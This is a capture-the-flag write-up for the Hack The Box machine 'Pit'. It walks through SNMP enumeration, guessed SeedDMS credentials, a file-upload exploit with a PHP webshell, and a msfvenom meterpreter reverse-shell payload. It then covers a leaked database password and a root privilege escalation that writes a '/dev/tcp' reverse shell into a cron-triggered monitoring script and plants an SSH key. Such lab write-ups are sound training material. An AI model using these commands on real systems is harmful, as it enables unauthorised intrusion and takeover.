







```
Not shown: 1957 filtered ports
PORT      STATE         SERVICE           VERSION
22/tcp    open          ssh               OpenSSH 8.0 (protocol 2.0)
80/tcp    open          http              nginx 1.14.1
9090/tcp  open          ssl/zeus-admin?
68/udp    open|filtered dhcpc
161/udp   open          snmp              SNMPv1 server; net-snmp SNMPv3 server (public)
764/udp   open|filtered omserv
999/udp   open|filtered applix
1034/udp  open|filtered activesync-notify
1234/udp  open|filtered search-agent
1718/udp  open|filtered h225gatedisc
2002/udp  open|filtered globe
3296/udp  open|filtered rib-slm
5632/udp  open|filtered pcanywherestat
```

So this machine runs webservices at 80 and 9090 and snmp at 161.



The webpage gives us a loginform for CentOS but we couldn't get anything with standard credentials.

Besides pit.htb we found dms-pit.htb in the certificate:



Enumerating the snmp we found a lot of oids with 
```
snmpwalk -v 1 -c private 10.129.152.198
```
but nothing really usefull.

After some search we digged deeper in snmp with:
```
snmpwalk -v 1 -c private 10.129.152.198 1.3.6
```

There we found 2 interesting things: A user called 'michelle' and a path '/var/www/html/seeddms51x/seeddms'.

The path gives us the hint to visit pit-dms.htb/seeddms51x/seeddms:



Just by trying UserID michelle from above and the password michelle we got access to the dms:



Searching for some vulnerabilities for SeedDMS we found: 
https://www.exploit-db.com/exploits/47022.
The test runs fine, so we can try to get a shell.

So you can upload a file at:



We used a webshell (for example https://raw.githubusercontent.com/Arrexel/phpbash/master/phpbash.php). You can open the file at http://dms-pit.htb/seeddms51x/data/1048576/[FILENUMBER]/1.php (You can find the FILENUMBER after the upload in the url or by hovering over the file name).
After enumeration we even used a meterpreter session for better access. For example:
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.14.12 LPORT=4444 -f raw > mp.php
```
and catching the meterpreter with a exploit/multi/handler in the msfconsole.
At this point you are user nginx and can find a config file '/var/www/html/seeddms51x/conf/settings.xml' which gives the next hint:
```
<database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="ied^ieY6xoquu" doNotCheckVersion="false">
```
Using the password 'ied^ieY6xoquu' you can log in as 'michelle' at CentOS in the log in form at https://pit.htb:9090/ from the beginning:



At the tools section you can find a terminal for user michelle on the machine and get the user flag.

Running LinPEAS we found an uncommon ACL for '/usr/local/monitoring'. Michelle is allowed to write and execute in there but not to read. (getfacl -t -s -R -p /usr/local/monitoring). That's quite uncommon and got us to dig further here. We need to find out when it will be executed...
By using the command 'monitor' we found the hook at the bin folder.
Looking at the script:
```
[michelle@pit bin]$ cat monitor
#!/bin/bash

for script in /usr/local/monitoring/check*sh
do
    /bin/bash $script
done
```
we can see that anything like check\*sh is going to be executed (maybe.. if it's triggered by something). Just by writing a 'check1.sh' in '/usr/local/monitoring' didn't get us anything so we had to trigger the execution somewhere else.
Remembering the snmp walk there was something like a monitoring function. We managed to find and call it with:
```
snmpwalk -v 1 -c public 10.129.152.198 1.3.6.1.4.1.8072.1.3.2
```
With a command like whoami in a check1.sh written by michelle into the monitoring folder you can see that it is executed by root. Dropping a shell in it was a bit weird, we didn't had full access and some problems with priveleges but you can fix that by dropping your RSA key in the authorized_keys file of root and connect via ssh.

The whole process looks like:
- Write a reverse shell as michelle into the monitoring folder:
```
echo "bash -i > /dev/tcp/10.10.14.12/4444 0>&1" > /usr/local/monitoring/check1.sh
```
- Catch the shell and Echo your key into the authorized_keys file of root
- Connect with ssh 


